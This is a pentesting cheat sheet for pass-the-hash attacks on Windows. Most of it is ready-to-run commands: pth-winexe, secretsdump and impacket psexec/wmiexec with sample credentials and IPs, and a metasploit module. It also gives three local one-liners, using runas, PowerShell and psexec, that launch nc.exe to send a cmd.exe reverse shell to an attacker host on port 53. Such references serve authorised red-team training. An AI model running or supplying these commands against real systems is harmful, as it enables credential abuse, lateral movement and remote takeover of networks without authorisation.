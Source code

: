 # Pass the Hash / Password

{% hint style="warning" %}
!**!! NTLMv2 hashes can not be passed !!!**

**only NTLM hashes can be passed**

FOR TOOLS THAT HAVE TO USE LM HASH**E**S BEFORE NTLM HASH, ADD A BLANK LM HASH:

_aad3b435b51404eeaad3b435b51404ee_
{% endhint %}

## Remote

Pass the hash remotely to gain a shell:

### pth-winexe

```
pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd
```

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

```
pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd
```

Alternative:

```
export SMBHASH=<hash>
pth-winexe -U <domain>/<username>% //<target-ip> cmd
```

{% hint style="info" %}
remember the first hash portion is a blank LM hash between these signs : and %
{% endhint %}

### secretsdump

```
secretsdump.py megacorp/hesher:"password123!"@192.168.56.116
```

### psexec.py / winexec.py

```
python psexec.py "hesher":"password123!"@192.168.56.115

python psexec.py "hesher":@192.168.56.115 -hashes [nthash]

python wmiexec.py "hesher":"password123!"@192.168.56.115
```

### metasploit psexec

```
use exploit/windows/smb/psexec
```

## Local

Pass the hash locally using runas:

```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```

Pass the hash locally using PowerShell:

```
secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

Pass the hash locally using psexec:

```
psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```

